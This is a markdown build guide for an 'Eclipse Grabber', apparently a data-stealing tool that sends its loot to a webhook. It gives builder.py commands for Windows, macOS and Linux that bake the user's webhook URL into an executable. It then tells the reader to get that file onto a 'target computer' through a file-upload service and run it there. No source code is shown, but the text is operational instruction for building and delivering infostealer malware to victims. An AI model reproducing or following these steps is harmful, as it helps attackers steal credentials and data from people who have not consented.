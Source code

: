 # Build Guide for the Eclipse Grabber
## Run the builder.py Script

To build an eclipse grabber you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

![image](https://imgur.com/fEIbIfb.png)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### MacOS
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Eclipse Grabber

Now that you have the Executable file you can share it with the target coputer and run it. You can use a file uploading service like [this](https://file.io) one to **upload/download** the file to the computer.
